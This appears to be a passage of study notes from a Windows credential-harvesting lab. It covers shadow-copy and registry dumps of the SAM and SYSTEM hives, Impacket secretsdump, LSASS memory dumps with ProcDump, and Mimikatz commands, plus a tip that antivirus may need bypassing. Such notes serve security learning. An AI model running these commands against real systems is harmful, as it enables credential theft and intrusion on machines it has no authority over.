 `wmic shadowcopy call create Volume='C:\'` - Create a copy shadow of C: drive.
`vssadmin list shadows` - Confirm we have a shadow copy of the C: volume.

`c:\Windows\System32\Config\system` - The location for the SAM database decryption key.

`copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\Administrator\Desktop\sam` and `copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\Administrator\Desktop\system` - Copy the sam and system files from the shadow copy volume we generated to the desktop.

##### Registry Hives

Windows registry saves some content from the SAM database to be used by Windows services.

`reg save HKLM\sam C:\users\Administrator\Desktop\sam-reg` and `reg save HKLM\system C:\users\Administrator\Desktop\system-reg` - Dump the sam and system files using the registry.

The Impacket SecretsDump scripts extracts credentials from a system locally and remotely using different techniques.

`python3 /opt/impacket/examples/secretsdump.py -sam <sam file location> -system <system file location> LOCAL` - Decrypt the local SAM file, we used the LOCAL argument for this.

To also decrypt AD accounts we need to dump the SECURITY file.
## Local Security Authority Subsystem Service (LSASS)

##### What is the LSASS?

Local Security Authority Server Service (LSASS) is a process that handles the OS security policy and enforces it on a system, it stores credentials so users can access network resources without providing the credentials each time.

If we have administrator privileges we can dump the process memory of LSASS. Windows systems allow us to create a dump file, a snapshot of a given process, either trough GUI or the command prompt. This attack is defined in the MITRE ATT&CK framework as [OS Credential Dumping: LSASS Memory](https://attack.mitre.org/techniques/T1003/001/).

##### Graphic User Interface (GUI)

To dump an running Windows process, go to the Details tab in Task Manager, right click on the required process and select "Create dump file".
##### Sysinternals Suite

We can use ProcDump in the command prompt to dump a process.

`<procdump.exe path> -accepteula -ma lsass.exe <path to dump to>` - Dump the lsass process.

An AV can detect this as malicious, so you might need to write code to encrypt or implement a method to bypass the AV.

##### Mimikatz

LSASS process is running as SYSTEM so we will need SYSTEM or local administrator permissions to access users' hashes.

`mimikatz.exe` - Execute Mimikatz.
`privilege::debug` - Enable the SeDebugPrivilege and check the current permissions for memory access.
`sekurelsa::logonpasswords` - Dump all cached passwords and hashes from lsass.exe.
